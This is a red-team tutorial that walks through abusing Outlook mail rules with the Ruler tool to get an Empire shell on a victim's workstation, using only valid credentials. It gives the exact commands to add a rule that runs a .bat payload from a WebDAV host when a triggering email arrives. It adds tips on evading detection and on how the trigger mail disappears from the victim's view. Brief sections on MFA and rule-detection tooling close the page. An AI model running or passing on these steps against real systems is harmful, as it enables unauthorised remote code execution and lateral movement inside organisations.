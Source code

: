 # Pivoting Through Exchange Using Ruler

## Pre-requisits

* **Installing **[**GO **](https://github.com/golang)
* [**ruler** ](https://github.com/sensepost/ruler)

## Introduction

Ruler is a tool that allows you to interact with Exchange servers remotely, through either the MAPI/HTTP or RPC/HTTP protocol. The main aim is abuse the client-side Outlook features and gain a shell remotely.

Ruler attempts to interact with Exchange and uses the Autodiscover service \(just like in your organization\) to discover the relevant information needed to proceed.

## What can we use ruler for

We can use ruler to do many things ill list its main feature below but, what i am going to show you is  gonna be a way to pop a shell through ruler and the only thing we need is a valid username/password and the user to have outlook open.

in a real life scenario most employees leave their outlook open because they are often checking for incoming mails etc.

* Enumerate valid users
* Create new malicious mail rules 
* Dump the Global Address List \(GAL\)
* VBScript execution through forms
* VBScript execution through the Outlook Home Page

crazy isnt it? now that we know some of ruler usage lets get starting

### Checking that we are good to go :

i wont go through on how to find mail structures,adding dns records etc ill leave you to explore it.

once we know the mail structure,added dns records etc we can start by checking with the exchange server that we  can communicate to it and that we are able to authenticate and open the mailbox.

depends on how you compile ruler it may be different than the syntax below

```
./ruler --email test@lab.local --verbose check
```

once executed we will get a password prompt,if everything is valid we should get a messsage stating that the mailbox has been opened and that we are good to go.

### Viewing Existing Rules :

```
./ruler --email test@lab.local display
```

### Setting up an Empire Listener

i wont go into how to set up an empire or its  listener you can refer to chryzsh [link](https://chryzsh.gitbooks.io/darthsidious/content/responder/relay.html) in the book to get an understanding of how to quickly set it up. instead of using a one liner we should generate a .bat powershell and host it on a webdav server.

there are many guides on the net on how to quickly set up a webdav server.

its worth mentiniong that its possible to evade detection by zipping the .bat and then calling it through webdav directory.

ill update this method in the future.

### Creating the rule

```
./ruler --email test@lab.local add --name test --trigger shell --location "\\\\webdav.test\\webdav\shell.bat" --send
```

this command basically gonna send an email to the user inbox and trigger our rule when that happens we should shortly after recieve our empire shell.

now its worth mentioning that the user wont see the mail in his sent items since its automatically gettin deleted so we dont have to worry about that.

### Deleting the rule & Cleaning up

once we are done we can delete

`./ruler  --email test@lab.local delete --name test`

### Defending against Ruler

1. Enable Multi-factor Authentication for all of your users, especially those with administrative privileges.

2. Monitor your accounts for illicit activity. You can do this manually, or with a security monitoring toolset. This may not prevent the initial breach, but will shorten the duration, and the impact of the breach.

### How to Detect it

The simplest method is to use a script microsoft made to get all the rules

[https://github.com/OfficeDev/O365-InvestigationTooling/blob/master/Get-AllTenantRulesAndForms.ps1](https://github.com/OfficeDev/O365-InvestigationTooling/blob/master/Get-AllTenantRulesAndForms.ps1)

You will need to have a global admin role to run the script

### Closing Thoughts

with ruler we can pop a shell and pivot across the network its a great tool that has alot to explore what i showed here is a just one of the things its capable of doing i suggest you to explore the rest of it and get better understanding of its true power.

Written by : ~~**BufferOv3rride**~~
Written: 30.03.2018
Last edited: 30.03.2018
